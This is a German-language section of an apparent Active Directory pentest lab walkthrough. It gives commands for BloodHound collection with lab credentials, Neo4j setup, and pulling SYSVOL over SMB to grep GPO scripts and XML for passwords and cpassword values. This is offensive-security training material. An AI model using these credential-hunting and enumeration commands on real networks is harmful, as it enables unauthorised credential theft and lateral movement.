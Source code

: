 ### 4.2 BloodHound-Integration für Attack Path Analysis

#### BloodHound Python Ingestor
```bash
# Installation
pip3 install bloodhound

# Datensammlung
bloodhound-python -d north.sevenkingdoms.local -u jon.snow -p iknownothing -ns 192.168.20.11 -c All --zip

# Für alle Domänen
bloodhound-python -d sevenkingdoms.local -u user -p pass -ns 192.168.20.10 -c All --zip
bloodhound-python -d essos.local -u user -p pass -ns 192.168.20.12 -c All --zip
```

#### Neo4j und BloodHound Setup
```bash
# Neo4j installieren
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -
echo 'deb https://debian.neo4j.com stable 4.4' | sudo tee /etc/apt/sources.list.d/neo4j.list
apt update && apt install neo4j

# Neo4j starten
sudo neo4j start

# BloodHound herunterladen
wget https://github.com/BloodHoundAD/BloodHound/releases/latest/download/BloodHound-linux-x64.zip
unzip BloodHound-linux-x64.zip
./BloodHound --no-sandbox
```

### 4.3 Group Policy Exploitation

#### GPO-Dateien analysieren
```bash
# Heruntergeladene GPO-Skripte untersuchen
cat script.ps1
cat secret.ps1

# Nach Credentials oder Konfigurationsschwachstellen suchen
grep -i "password\|credential\|key" *.ps1
grep -i "invoke\|iex\|downloadstring" *.ps1
```

#### SYSVOL-Enumeration für weitere GPOs
```bash
# Vollständige SYSVOL-Struktur erforschen
smbclient //192.168.20.11/SYSVOL -U jon.snow -c "recurse ON; prompt OFF; mget *"

# Policies-Ordner untersuchen
find . -name "*.xml" -exec grep -l "password\|cpassword" {} \;
find . -name "*.pol" -exec strings {} \; | grep -i password
```

---
